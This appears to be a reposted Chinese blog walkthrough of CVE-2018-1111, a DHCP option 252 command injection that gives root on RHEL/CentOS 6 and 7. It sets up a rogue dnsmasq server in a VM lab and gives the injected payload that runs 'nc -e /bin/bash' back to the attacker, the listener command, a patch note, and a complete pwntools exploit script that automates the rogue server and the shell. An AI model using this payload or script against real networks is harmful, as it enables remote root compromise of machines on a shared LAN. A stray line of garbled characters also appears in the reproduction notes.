





# CVE-2018-1111 劫持 dhcp 造成 centos 代码执行漏洞 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/9213447.html`](https://www.cnblogs.com/backlion/p/9213447.html)

## 0x01 漏洞概述

近日，红帽官方发布了安全更新，修复了编号为 CVE-2018-1111 的远程代码执行漏洞，攻击者可以通过伪造 DHCP 服务器发送响应包，攻击红帽系统，获取 root 权限并执行任意命令。

## 0x02 影响版本

Red Hat Enterprise Linux Server 6

Red Hat Enterprise Linux Server 7

CentOS 6

CentOS 7

## 0x03 漏洞详情

DHCP 是一个局域网的网络协议，主要用于内部网络动态 IP 地址分配。Red Hat 提供的 DHCP 客户端软件包 dhclient 的脚本为/etc/NetworkManager/dispatcher.d/11-dhclient（Red Hat Enterprise Linux 7）和/etc/NetworkManager/dispatcher.d/10-dhclient（Red Hat Enterprise Linux 6）；当 NetworkManager 组件从 DHCP 服务器收到 DHCP 响应时执行该脚本。

使用单引号使参数值逃逸成功，导致了命令执行

--dhcp-option="252,x'&nc -e /bin/bash 10.1.1.1 1337 #"

## 0x04 漏洞复现

复现时需要注意的点：

1.两台虚拟机的网络适配器都需要设置为 仅主机模式

2.停用主机模式的 DHCP 服务 LS8 z( D/ M0 ~& J2 f9 l

## 环境

攻击机：kali 2018.2
受害机：centos7

去下载了清华镜像站里的 centos 7

https://mirrors.tuna.tsinghua.edu.cn/centos/7.4.1708/isos/x86_64/CentOS-7-x86_64-DVD-1708.iso
vmware12.0

## 设置网络

这里我用 vmware 虚拟机来实现，两个系统都是连接到 VMnet1 网卡上(仅主机模式)，并且关闭网卡上的 DHCP 服务。

接着我们开始配置 kali 上的 dhcp 服务器，dnsmasq 是一个小巧且方便地用于配置 DNS 和 DHCP 的工具，适用于小型网络，它提供了 DNS 功能和可选择的 DHCP 功能，可以快速搭建一个 DNS 服务或者 DHCP 服务。

## 对 kali 做配置

先对 kali 下的 ip 进行静态配置并添加路由，命令如下：

ifconfig eth0  192.168.71.5  netmask  255.255.255.0

route add default gw 192.168.71.5

首先我们创建一个 dnsmasq 需要使用到的配置文件 /etc/dnsmasq.conf,内容如下：

Vim  /etc/dnsmassq.conf

bind-interfaces

interface=eth0

except-interface=lo

dhcp-range=192.168.71.10,192.168.71.30,22h

dhcp-option=3,192.168.131.5

dhcp-option=6,192.168.131.5

log-queries

log-facility=/var/log/dnsmasq.log

参数解释：

dhcp-range: 表示要分配给客户机的 ip 地址范围和租约时间

dhcp-option: 表示指定给 DHCP 客户端的选项信息

log-facility: 表示日志记录器

其中配置文件中包括的 option 取值及含义如下：

3: 设置网关地址选项

6: 设置 DNS 服务器地址选项

252: 为 DHCP 客户端提供了一个用于配置其代理设置的 URL，wpad-proxy-url

payload 中涉及到的 option 252 是私人使用保留部分的一部分, 为 dhcp 服务器使用 252，然后在他们的浏览器中写入与 dhcp 服务器交谈的能力，并要求代码 252 从该选项列出的 URL 中获取关于网络上代理设置的信息。

这里 dnsmasq.conf 中的 dhcp-range 我设置

为 192.168.71.10-192.168.71.30/24 这个 ip 地址范围，租约时间为 12h。

dhcp-option 3 网关地址和 dhcp-option6 DNS 服务器均设置为 kali 本地网卡的 ip 地址，kali 的 ip 地址为静态 ip。修改好 /etc/dnsmasq.conf 配置文件之后，还不能直接启动 dnsmasq 服务。

利用 dnsmasq 伪造 dns 服务器，命令执行 payload 如下：

dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash 192.168.71.5 6666 #"

这里的 -d 表示调试模式，-C 表示指定配置文件运行 dnsmasq 服务，更多有关 dnsmasq 的命令详解可以用 man dnsmasq 查看。

命令执行的效果是通过 nc 反弹 shell 到 192.168.71.5 的 6666 端口，所以需要在 kali 开启 nc 端口监听，命令如下：

nc -l -p 6666 -v

## 攻击

现在 centos 设置成 dhcp 获取 ip 地址,重启一下网卡！此时 Centos 需要重启网络服务，获取 DHCP 服务器下发的 ip 地址，这里可以看到获取到了 ip 地址 192.168.71.18

命令如下：

/etc/init.d/network  restart

已经显示获取到了 IP 了 ，看看 kali 这边的情况吧

此时在 kali 的 nc 可以拿到 centos 的 shell，且为 root 权限

## 0x05 漏洞原理

单引号在脚本逃逸了，直接以 root 权限执行了脚本。

dhcp-option=”252,x’&nc -e /bin/bash 10.1.1.1 1337 #”

## 0x06 修复方法

#yum update dhclient 

#rpm -qa --changelog dhclient | grep CVE-2018 - Resolves: #1570898 - Fix CVE-2018-1111: Do not parse backslash as escape character

## Ox7 利用 exp

#/usr/bin/python

#encoding = utf-8

from pwn import *

import os

import sys

import time

# author : xyzz@chamd5.org

# time : 20180520

ip='192.168.131.52'

port=1314

# context.log_level='debug'

def pwn(ip,port):

 f=open('dnsmasq.conf','w')

 start = ip[:ip.rfind('.')]+'.10'

 end = ip[:ip.rfind('.')]+'.30'

 dnsmasq = '''

bind-interfaces

interface=eth0

except-interface=lo

dhcp-range={start},{end},22h

dhcp-option=3,{ip}

dhcp-option=6,{ip}

log-queries

log-facility=/var/log/dnsmasq.log

'''.format(ip=ip,start=start,end=end)

 f.write(dnsmasq)

 f.close()

 cm=[]

 cm.append('ifconfig eth0 {ip} netmask 255.255.255.0 '.format(ip=ip))

 cm.append('route add default gw {ip}'.format(ip=ip))

 cm.append('''dnsmasq -dC dnsmasq.conf --dhcp-option="252,'&nc -e /bin/bash {ip} {port} #"'''.format(ip=ip,port=port))

 q=process('bash')

 for i in range(len(cm)-1):

  q.sendline(cm[i])

  time.sleep(1)

 # time.sleep(100)

 p=process('bash')

 p.sendline('nc -l -p {port} -v'.format(port=port))

 q.sendline(cm[-1])

 time.sleep(3)

 p.interactive()

 # q.interactive()

if __name__ == '__main__':

 pwn(ip,port)

